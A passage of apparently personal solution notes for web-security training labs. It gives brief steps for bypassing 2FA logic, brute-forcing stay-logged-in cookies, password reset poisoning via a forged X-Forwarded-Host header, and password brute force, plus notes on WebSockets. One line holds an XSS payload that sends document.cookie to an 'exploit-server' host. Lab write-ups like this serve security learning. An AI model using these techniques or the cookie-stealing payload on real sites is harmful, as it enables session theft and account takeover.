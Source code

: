 ### 8. 2FA broken logic
```
Observe there is verify=wiener in cookie while sending 2FA code
Change it to our victim's nickname and simply brute 2FA code
```

### 9. Brute-forcing a stay-logged-in cookie
```
Observe stay logged in function. Check cookie and observe that it is base64 encoded version of USERNAME:(md5)PASSWORD
Create a list of md5 hashed passwords and brute cookies
```

### 10. Offline password cracking
>Steal cookie in comment section via XSS: ```<script>document.write('<img src="https://exploit-server?c='+document.cookie+'" />');</script>```
>Crack MD5 hash via john the ripper or web services


### 11. Password reset poisoning via middleware
```
While processing forgot password set new header:
X-Forwarded-Host: exploit-server 
It will process Host Header Injection
```

### 12. Password brute-force via password change
```
While processing password changing, observe that you can change nickname.
Change it to victim's one and brute his password
```

### Business logic Authentication vulnerability  
1. Authentication bypass via flawed state machine  
If you got the role-selector page, just turn On the Interception and drop this request.  
![image](https://user-images.githubusercontent.com/58632878/224716441-e3631b3f-472c-46aa-83b5-0c471447dbe3.png)  
![image](https://user-images.githubusercontent.com/58632878/224716833-d96a1ca7-105d-4de8-9bb2-997e53ac1c3b.png)  

  
2. Weak isolation on dual-use endpoint  
Delete current-password parameter and change username to administrator  


# WebSockets
## Approach  
An interesting topic, where the first two labs are quite clear - we call xss on the chat support side, and in the third we get the entire history of the support chat via CSRF.  
Arises at **Live Chat** page.  
![image](https://user-images.githubusercontent.com/58632878/224719638-45789009-570b-4755-b44e-ddb7fa3f7f43.png)  
